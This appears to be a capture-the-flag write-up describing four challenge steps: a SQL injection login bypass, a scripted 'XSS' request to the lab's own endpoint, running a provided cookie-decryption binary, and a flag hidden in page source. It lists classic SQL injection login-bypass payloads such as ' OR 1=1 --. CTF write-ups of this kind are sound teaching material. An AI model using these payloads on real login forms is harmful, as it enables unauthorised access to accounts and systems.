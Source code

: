 ## SQL Injection

The first login page is vulnerable to SQL injection. The following payloads can be used to bypass the login:


 ```sql
 admin' --
 admin' #
 admin'/*
 ' OR 1=1 --
 ' OR 1=1 #
 ' OR 1=1/*
 ') OR '1'='1--
 ') OR ('1'='1--
 ```

Use this payload in either the username or password field to bypass the login, obtaining the first flag.

## Cross-Site Scripting

Using the downloaded script from the website, we can inject a script into the console of the browser, leading to a successful XSS attack. The following payload can be used to inject the script:

```javascript
fetch("/execute_xss", {
  headers: {
    "X-Execute-XSS": "true",
  },
}).then((response) => {
  if (response.ok) {
    window.location.href = "/execute_xss_redirect";
  }
});
```

This would cause a redirect to the `/execute_xss_redirect` page, where the second flag would be displayed.

## Cookie decryption

After the XSS attack, an encrypted cookie is stored in the browser, which can be decrypted using the provided custom program.

To execute the program, it need to be executable. To do this, run the following command:

```bash
chmod +x dcrpt_xxx_yyy
```

Then, run the program:

```bash
./dcrpt_xxx_yyy
```

The decrypted cookie will be displayed, containing the third flag.

## Web

The website contains the final flag in the source code of the page. By inspecting the source HTML code, the fourth flag can be found.
